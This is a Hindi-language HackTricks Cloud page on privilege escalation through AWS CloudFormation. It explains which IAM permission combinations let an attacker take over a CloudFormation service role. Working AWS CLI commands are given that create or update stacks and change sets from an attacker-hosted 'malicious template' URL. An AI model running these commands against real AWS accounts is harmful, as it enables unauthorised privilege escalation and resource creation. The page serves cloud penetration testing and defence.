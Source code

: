 # AWS - Cloudformation Privesc

<details>

<summary><strong>शून्य से नायक तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग प्राप्त करें**](https://peass.creator-spring.com)
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) का संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो करें**.
* [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें.

</details>

## cloudformation

cloudformation के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

**`iam:PassRole` और `cloudformation:CreateStack` के साथ एक हमलावर विशेषाधिकार बढ़ा सकता है** अपने सर्वर पर होस्ट किए गए कस्टम टेम्पलेट के साथ एक **CloudFormation स्टैक** तैयार करके, जो निर्दिष्ट रोल की अनुमतियों के तहत क्रियाएं करने के लिए हो, जिससे अनधिकृत संसाधन सृजन या पहुँच वृद्धि हो सकती है।

**कमांड उदाहरण:**
```bash
aws cloudformation create-stack --stack-name my_stack \
--template-url http://my-website.com/my-malicious-template.template \
--role-arn arn_of_cloudformation_service_role
```
निम्नलिखित पृष्ठ में आपके पास अतिरिक्त अनुमति **`cloudformation:DescribeStacks`** के साथ एक **शोषण उदाहरण** है:

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**संभावित प्रभाव:** निर्दिष्ट cloudformation सेवा भूमिका के लिए Privesc।

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

इस मामले में आप मौजूदा cloudformation स्टैक का **दुरुपयोग कर सकते हैं** और इसे अपडेट करके पिछले परिदृश्य की तरह विशेषाधिकार बढ़ा सकते हैं:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
`cloudformation:SetStackPolicy` अनुमति का उपयोग करके आप **खुद को `UpdateStack` अनुमति दे सकते हैं** एक स्टैक पर और हमला कर सकते हैं।

**संभावित प्रभाव:** cloudformation सेवा भूमिका के लिए Privesc जो निर्दिष्ट है।

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

यदि आपके पास यह अनुमति है लेकिन **कोई `iam:PassRole` नहीं** है, तो आप अभी भी **स्टैक्स को अपडेट कर सकते हैं** और उन **IAM भूमिकाओं का दुरुपयोग कर सकते हैं जो पहले से जुड़ी हुई हैं**। उदाहरण के लिए पिछले अनुभाग की जांच करें (बस अपडेट में कोई भूमिका न दिखाएं)।

`cloudformation:SetStackPolicy` अनुमति का उपयोग करके आप **खुद को `UpdateStack` अनुमति दे सकते हैं** एक स्टैक पर और हमला कर सकते हैं।

**संभावित प्रभाव:** पहले से जुड़ी हुई cloudformation सेवा भूमिका के लिए Privesc।

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

एक हमलावर जिसके पास **एक भूमिका पास करने और ChangeSet बनाने व निष्पादित करने की अनुमति है** वह **नया cloudformation स्टैक बना/अपडेट कर सकता है और cloudformation सेवा भूमिकाओं का दुरुपयोग कर सकता है** जैसे कि CreateStack या UpdateStack के साथ।

निम्नलिखित हमला **CreateStack का एक**[ **विविधता है**](./#iam-passrole-cloudformation-createstack) **ChangeSet अनुमतियों** का उपयोग करके एक स्टैक बनाने के लिए।
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
`cloudformation:SetStackPolicy` अनुमति का उपयोग करके आप **स्वयं को `ChangeSet` अनुमतियाँ प्रदान कर सकते हैं** और हमला कर सकते हैं।

**संभावित प्रभाव:** cloudformation सेवा भूमिकाओं के लिए Privesc।

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

यह पिछली विधि की तरह है बिना **IAM भूमिकाओं** को पास किए, इसलिए आप सिर्फ **पहले से जुड़ी हुई भूमिकाओं का दुरुपयोग कर सकते हैं**, बस पैरामीटर में संशोधन करें:
```
--change-set-type UPDATE
```
**संभावित प्रभाव:** क्लाउडफॉर्मेशन सेवा भूमिका तक प्रिवेस्क जो पहले से जुड़ी हुई है।

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

एक हमलावर इन अनुमतियों का दुरुपयोग कर सकता है ताकि StackSets बनाए/अपडेट कर सके और मनमाने क्लाउडफॉर्मेशन भूमिकाओं का दुरुपयोग कर सके।

**संभावित प्रभाव:** क्लाउडफॉर्मेशन सेवा भूमिकाओं तक प्रिवेस्क।

### `cloudformation:UpdateStackSet`

एक हमलावर इस अनुमति का दुरुपयोग कर सकता है बिना passRole अनुमति के StackSets को अपडेट करने के लिए और जुड़ी हुई क्लाउडफॉर्मेशन भूमिकाओं का दुरुपयोग कर सके।

**संभावित प्रभाव:** जुड़ी हुई क्लाउडफॉर्मेशन भूमिकाओं तक प्रिवेस्क।

## संदर्भ

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) के साथ शून्य से नायक तक AWS हैकिंग सीखें</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सदस्यता योजनाओं**](https://github.com/sponsors/carlospolop) की जाँच करें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) में शामिल हों या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** पर मुझे 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) पर **अनुसरण** करें।
* [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>
